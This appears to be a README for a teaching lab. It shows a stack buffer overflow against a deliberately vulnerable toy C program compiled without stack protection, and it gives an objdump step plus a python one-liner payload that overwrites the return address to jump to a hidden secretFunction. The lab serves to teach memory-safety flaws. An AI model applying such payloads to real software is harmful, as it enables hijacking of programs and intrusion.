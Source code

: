 # stack buffer overflow example 

## list of files required
* vuln2.c

## instructions:
* compile: `gcc -o vuln2.out vuln2.c -fno-stack-protector`


## normal functioning
* input a small string, and the program will return a an integer
	* e.g., run `vuln2.out` and input 123 or AAA, it will return a normal integer

## anomalous functioning

* then input a big number e.g. 12222222222222222222222222222222222121321321321 it will return a number (such as 2147483648)
* the third time, enter a input that is very long e.g. AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, the program will crash


## get address of secretFunction
* redirect `objdump -d vuln2.out` to a file
* look for secretFunction
* e.g. `0000000000400635 <secretFunction>:`
* this means the address is: 35 06 40 00 
	* the ordering is reverse due to [endianness](https://en.wikipedia.org/wiki/Endianness), 
	which we will not concern ourselves with at this point
* on the commad line, enter this: `python -c 'print "a"*40 + "\x35\x06\x40\x00"' | ./vuln2.out`
* you should see output that looks like this:
	<p>Congratulations!	 
		You have entered the secret function.
		Segmentation fault1</p>




## analysis
* obviously, the part that interests us the most is why secretFunction was invoked
* as before, our compilation process has ensured that the compiler doesn't check for stack overflows
* read the first reference below to understand details about how input was designed designed for the program vuln2.out that caused secretFunction() to be invoked


## references
* <https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/>
* <https://en.wikipedia.org/wiki/Stack_buffer_overflow>

## end

